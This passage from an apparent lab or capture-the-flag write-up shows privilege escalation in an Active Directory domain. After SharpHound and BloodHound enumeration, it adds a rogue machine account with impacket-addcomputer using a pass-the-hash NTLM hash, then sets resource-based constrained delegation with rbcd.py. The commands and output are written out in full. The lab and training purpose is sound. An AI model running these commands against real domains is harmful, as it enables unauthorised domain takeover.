 ```python
2024-07-12T09:52:05.0108797-07:00|INFORMATION|Saving cache with stats: 243 ID to type mappings.
 243 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-07-12T09:52:05.0421342-07:00|INFORMATION|SharpHound Enumeration Completed at 9:52 AM on 7/12/2024! Happy Graphing!

```
Now that we have files that we can graph in `BloodHound`.

We have GenericAll access to the DC (RESOURCEDC.RESOURCED.LOCAL). The point is, we have to perform a Constrained Delegation attack to get access to the DC. However, the issue is that there’s no user or computer that we are trusted to authenticate with. 

So, we have to create our own.

# **Privilege Escalation**

For that, we can use `impacket-addcomputer`
```python
┌──(kali㉿kali)-[~]
└─$ impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.205.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'griffyn' -computer-pass 'griffyn'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account griffyn$ with password griffyn.
```

We can verify the user on `L.Livingstone` user.
```python
*Evil-WinRM* PS C:\Users\L.Livingstone\Desktop> Get-ADcomputer griffyn


DistinguishedName : CN=griffyn,CN=Computers,DC=resourced,DC=local
DNSHostName       :
Enabled           : True
Name              : griffyn
ObjectClass       : computer
ObjectGUID        : XXXXXXX-XXXX-XX-b7fb-XXXXXXXX
SamAccountName    : griffyn$
SID               : S-1-5-21-XXXXXXX-XXXXXXX-XXXXXXXX-4101
UserPrincipalName :
```

> With this account added, we now need a python script to help us manage the delegation rights. Let’s grab a copy of [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) and use it to set `msDS-AllowedToActOnBehalfOfOtherIdentity` on our new machine account.

```python
┌──(kali㉿kali)-[~/…/Intermediate/Windows/Resourced/rbcd-attack]
└─$ sudo python3 rbcd.py -dc-ip 192.168.205.175 -t RESOURCEDC -f 'griffyn' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
[sudo] password for kali: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against RESOURCEDC$
[*] Initializing LDAP connection to 192.168.205.175
[*] Using resourced\l.livingstone account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `griffyn` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `RESOURCEDC`
[*] Delegation rights modified succesfully!
```